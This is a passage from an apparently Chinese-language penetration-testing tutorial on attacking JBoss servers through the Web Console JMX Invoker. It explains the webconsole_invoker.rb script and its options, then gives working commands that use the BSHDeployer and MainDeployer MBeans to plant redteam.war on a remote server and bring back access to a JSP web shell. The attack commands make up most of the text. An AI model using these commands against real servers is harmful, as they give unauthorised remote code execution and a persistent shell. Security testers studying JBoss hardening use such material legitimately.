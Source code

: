 webconsole_invoker.rb可以直接调用Web控制的JMX Invoker，使用的Java类是：org.jboss.console.remote.Util

Util.class文件属于JBoss服务器的JAR文件：console-mgr-classes.jar，它提供的方法：

```
public static Object invoke(
    java.net.URL externalURL,
    RemoteMBeanInvocation mi)
public static Object getAttribute(
    java.net.URL externalURL,
    RemoteMBeanAttributeInvocation mi)

```

通过Web控制台Invoker可以读取MBean的属性与invoke方法。

这个类可以通过webconsole_invoker.rb脚本使用，使用方法如下：

```
$ ./webconsole_invoker.rb -h
Usage: ./webconsole_invoker.rb [options] MBean
￼-u, --url URL  The Invoker URL to use (default:http://localhost:8080/web-console/Invoker)
-a, --get-attr ATTR             Read an attribute of an MBean
-i, --invoke METHOD             invoke an MBean method
-p, --invoke-params PARAMS      MBean method params
-s, --invoke-sigs SIGS          MBean method signature
-t, --test                      Test the script with the ServerInfo MBean
-h, --help                      Show this help

Example usage:
./webconsole_invoker.rb -a OSVersion jboss.system:type=ServerInfo
./webconsole_invoker.rb -i listThreadDump jboss.system:type=ServerInfo
./webconsole_invoker.rb -i listMemoryPools -p true -s boolean jboss.system:type=ServerInfo 

```

通过如下命令利用BSHDeployer来安装redteam.war文件。

```
$ ./webconsole_invoker.rb -u http://scribus:8080/web-console/Invoker -i createScriptDeployment -s "java.lang.String","java.lang.String" -p "`cat redteam.bsh`",redteam.bsh jboss.deployer:service=BSHDeployer

```

在远程服务器上创建一个本地的redteam.war文件，现在第二部就可以利用MainDeployer安装/tmp/redteam.war文件了。

```
$ ./webconsole_invoker.rb -u http://scribus:8080/web-console/Invoker -i deploy -s "java.lang.String" -p "file:/tmp/redteam.war" jboss.system:service=MainDeployer

```

redteam-shell.jsp又可以访问了。

#### JMXInvokerServlet

之前提到过JBoss服务器允许任何协议访问MBean服务器，对于HTTP，JBoss提供HttpAdaptor。
